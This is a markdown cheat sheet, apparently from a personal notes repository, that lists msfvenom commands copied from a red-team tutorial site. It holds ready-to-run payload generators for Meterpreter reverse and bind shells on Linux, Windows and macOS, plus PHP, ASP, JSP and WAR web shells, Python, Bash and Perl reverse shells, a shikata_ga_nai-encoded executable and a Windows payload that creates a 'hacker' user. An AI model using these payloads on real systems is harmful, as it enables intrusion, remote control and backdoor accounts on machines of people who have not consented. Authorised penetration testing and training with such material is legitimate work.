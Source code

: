 title: MSF Venom

# MSF Venom

`msfvenom` can be used to generate `meterpreter` payloads from the command line. 

The below is from [https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)

## List payloads
```
msfvenom -l
```

## Binaries Payloads

Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
```

Linux Bind Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
```

Linux Bind Shell
```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
```

Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho
```

Mac Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho
```

## Web Payloads

PHP Meterpreter Reverse TCP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
```

ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```

JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```

WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```

## Scripting Payloads

Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```

Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```

Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

## Shellcode

Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

## Create User

```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```
